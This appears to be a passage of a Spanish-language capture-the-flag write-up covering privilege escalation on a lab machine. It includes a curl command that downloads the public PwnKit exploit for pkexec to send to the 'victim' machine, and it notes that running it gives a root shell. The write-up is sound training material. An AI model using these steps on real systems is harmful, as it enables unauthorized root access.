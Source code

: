 ![[Pasted image 20240713184843.png]]

### Escalada de privilegios
buscando binarios hemos conseguido el binario `pkexec` con la experiencia que ya tenemos sabemos muy bien que este binario es potencialmente vulnerable así que vamos a intentar explotarlo para escalar privilegios
![[Pasted image 20240713184937.png]]

### pwnkit
vamos a descargar el pwnkit en nuestra maquina para luego enviarlo a la maquina victima

```python
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
```

![[Pasted image 20240713185446.png]]

`ejecutamos el script`
obtenemos una shell como root
![[Pasted image 20240713185808.png]]

### solo nos falta enumerar el puerto 8888
haciendo uso de las credenciales que hemos encontrados podemos enumerar este puerto
![[Pasted image 20240713185922.png]]

### nos falta una flag asi que debemos volver a la she